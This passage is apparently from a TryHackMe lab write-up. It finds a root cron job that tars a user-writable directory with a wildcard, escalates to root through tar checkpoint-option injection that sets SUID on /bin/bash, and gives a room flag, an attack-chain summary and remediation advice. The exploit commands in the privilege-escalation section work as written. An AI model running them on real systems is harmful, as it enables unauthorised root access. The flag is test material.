
*Figure 14 — Full process list, listening sockets (ss/netstat), and /etc/hosts — confirming no additional internal-only services exist.*

---

### 8. Writable-Path Sweep — Discovering the Backup Directory

**Category:** Filesystem Misconfiguration Discovery

A broader filesystem sweep for writable paths (excluding noisy/expected locations like `/tmp` and the user's own home) surfaced an unusual, non-default writable directory.

```bash
find / -xdev -writable -not -path "/proc/*" -not -path "/tmp/*" -not -path "/home/webdev/*" \( -type f -o -type d \) 2>/dev/null
```

- `-xdev` — stay on one filesystem, avoiding slow/irrelevant mounts
- `-writable` — only return paths the current user (`webdev`) can write to
- The `-not -path` exclusions strip out expected noise (`/proc`, `/tmp`, the user's own home) to surface anything *unexpected*

**Result:** `/opt/backups` — owned by `webdev:webdev` with `drwxrwx---` permissions, sitting directly under a root-owned parent (`/opt`). This directory being writable by `webdev` but living under an otherwise-root-controlled tree was the key lead.

```bash
ls -la /opt/backups
find / -xdev -iname "*backup*" 2>/dev/null
```

- `find / -xdev -iname "*backup*"` — broad search for anything else backup-related on the box, to find what actually *consumes* `/opt/backups`

**Result:** this search surfaced `/etc/cron.d/voltlabs-backup` — a custom cron file, distinct from the default system crontab already reviewed.

```bash
cat /etc/cron.d/voltlabs-backup
```

**Result — the vulnerable cron job:**
```cron
# Volt Labs staging backup - runs as root
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

* * * * * root cd /opt/backups && tar czf /var/backups/uploads.tgz *
```

This job runs **every minute, as root**, and executes `tar` with a bare wildcard (`*`) expanded from inside a directory `webdev` fully controls — a textbook **tar wildcard injection** opportunity.


*Figure 15 — Locating the writable `/opt/backups` directory, confirming it's empty aside from `.keep`, and reading the root cron job that tars its contents every minute.*

---

### 9. Privilege Escalation — Tar Wildcard Injection

**Category:** Local Privilege Escalation — Unsafe Wildcard Expansion in a Privileged Cron Job

Because `tar` interprets certain filenames beginning with `--` as command-line options when they are wildcard-expanded (rather than typed explicitly), a `webdev`-controlled directory being passed to `tar ... *` by root allows arbitrary command execution as root, by planting filenames that `tar` parses as its own checkpoint/action flags.

```bash
cd /opt/backups

# 1. Write the payload: a script that gives /bin/bash the SUID bit
cat > shell.sh << 'EOF'
#!/bin/bash
chmod u+s /bin/bash
EOF
chmod +x shell.sh

# 2. Plant two specially-named files that tar's wildcard expansion
#    will parse as command-line options instead of filenames
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
```

- `shell.sh` — the actual payload; sets the setuid bit on `/bin/bash` so that running it later preserves root's effective UID
- `--checkpoint=1` — tells `tar` to trigger a checkpoint action after every 1 file processed
- `--checkpoint-action=exec=sh shell.sh` — tells `tar` to execute `sh shell.sh` as its checkpoint action
- Because these two filenames sort alphabetically before most normal filenames and `tar` is invoked as `tar czf /var/backups/uploads.tgz *`, the shell's wildcard expansion hands these filenames to `tar` as literal arguments — and `tar` (running as root via cron) interprets them as flags rather than files to archive, executing `shell.sh` **as root**

Waiting up to 60 seconds for the next cron tick, then checking and using the result:

```bash
ls -la /bin/bash      # confirm the SUID bit was set by root
/bin/bash -p           # -p preserves effective privileges instead of dropping them
id
```

**Result:**
```text
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
bash-5.2# id
uid=1001(webdev) gid=1001(webdev) euid=0(root) groups=1001(webdev)
```

`euid=0(root)` confirms an effective-root shell was obtained.


*Figure 16 — Planting the checkpoint payload files, confirming `/bin/bash` gained the SUID bit after the cron job fired, and obtaining an effective-root shell with `bash -p`.*

---

### 10. Flag Retrieval

**Category:** Post-Exploitation — Objective Completion

With root-equivalent access confirmed, the final flag was read directly.

```bash
cat /root/flag.txt
```

**Result:** `THM{e6ee84a483d67ade06936fcfd1433e8a}`


*Figure 17 — Reading flag.txt from the root-owned shell obtained via the tar wildcard injection.*

---

## Other Details

### Troubleshooting Notes

- Anonymous FTP's `get pub` initially failed with `550 Failed to open file` because `pub` is a **directory**, not a file — `cd pub` followed by `ls -la` and a direct `get backup.tar.gz` was required instead of trying to `get` the directory itself.
- The first SUID binary search (`find / -perm -4000 -type f`) returned a large, noisy list dominated by stock snap/core/dbus/polkit binaries; piping through `grep -vE` with a known-benign filter list made it fast to confirm there was nothing exploitable there, rather than manually reading every line.
- The systemd unit dump surfaced a THM-infrastructure "Badr Service" that deliberately deletes its own config files 10 seconds after starting — this is **room scaffolding, not part of the intended attack path**, and was correctly set aside once its purpose was recognized.
- The real application service (`voltlabs-preview.service`) runs as the unprivileged `voltapp` user with `NoNewPrivileges=yes` and a locked-down `/opt/voltlabs-preview` directory — this was a legitimate-looking but ultimately dead-end privesc avenue, ruled out only after explicitly checking directory/file ownership and permissions.
- `sudo -l`, `/etc/sudoers`, and `/etc/sudoers.d/*` were all checked and returned nothing readable/usable by `webdev` — confirming privilege escalation had to come from a misconfigured file/cron path rather than sudo delegation.
- The eventual escalation path (`/opt/backups`) was only found after deliberately **excluding** noisy default paths (`/proc`, `/tmp`, the user's home) from the writable-file sweep — searching everywhere at once buried the one meaningful result among expected noise.

### Attack Chain Overview

1. `rustscan` + `nmap` service scan identifies FTP (anonymous login enabled), SSH, and an internal "URL Preview" HTTP tool
2. Anonymous FTP access leaks `backup.tar.gz`, containing the full Flask application source code
3. Static review of `app.py` identifies an SSRF primitive gated only by a hostname allow-list (`kestrel.thm` → `127.0.0.1`), and a loopback-only `/admin/notes` route
4. SSRF chain: `/preview?url=http://kestrel.thm/admin/notes` causes the server to proxy a request to its own loopback admin route, bypassing the IP restriction
5. Leaked `admin_notes.txt` discloses plaintext SSH credentials for `webdev`
6. SSH foothold as `webdev`; `user.txt` captured; `sudo -l` confirms no sudo rights
7. SUID, system crontab, and the app's own systemd service/directory are all enumerated and ruled out as privesc vectors
8. A writable-path sweep uncovers `/opt/backups` (writable by `webdev`) and the root cron job that tars it every minute
9. Tar wildcard injection (`--checkpoint`/`--checkpoint-action=exec=`) achieves root code execution via the cron job, setting the SUID bit on `/bin/bash`
10. `/bin/bash -p` yields an effective-root shell; `flag.txt` retrieved, completing the room

### Remediation Recommendations

- **Disable anonymous FTP access** entirely on production/staging systems, or at minimum ensure no sensitive archives (source code, backups, credentials) are ever placed in an anonymously-readable directory.
- **Never ship source backups to an unauthenticated, world-readable location.** Store backups in access-controlled storage separate from any public-facing service.
- Fix the SSRF by validating the **full target** (scheme, host, *and* resolved IP) against an allow-list, not just the literal hostname string — and explicitly reject any target that resolves to loopback/link-local/private address ranges unless that is an intentional, tightly-scoped exception.
- Do not rely on `remote_addr` alone to gate "internal-only" admin routes when the same application can be tricked into making loopback requests to itself; separate admin interfaces onto a different network path, socket, or require authentication in addition to source-IP checks.
- **Never store credentials in plaintext files** (such as `admin_notes.txt`) reachable by any part of the application, even if nominally access-restricted; use a secrets manager or environment-injected secrets with proper access controls.
- Enforce strong, unique passwords for all local/service accounts, and avoid credentials that are easily guessable or reused across environments.
- **Never use unsanitized shell wildcard expansion (`*`) with `tar`, `chown`, `rsync`, or similar tools inside privileged (root) cron jobs** operating on a directory writable by a lower-privileged user. Use `--` to terminate option parsing (e.g. `tar czf archive.tgz -- *`), explicit file lists, or `find … -print0 | xargs -0` instead of bare globbing.
- Audit all cron jobs, systemd timers, and scheduled tasks that run as root for any step that reads from, writes to, or globs over a directory writable by a non-root user.
- Apply the principle of least privilege to backup/automation directories — a root-owned task should only ever read from directories it also owns, or should sanitize/validate untrusted input before processing it.

---

## References

- TryHackMe Room — Operation Coldstart: <https://tryhackme.com/room/operationcoldstart>
- Video Walkthrough: <https://www.youtube.com/watch?v=9czGg1f3KnI>
- Additional Write-up: <https://0xb0b.gitbook.io/writeups/tryhackme/2026/operation-coldstart>
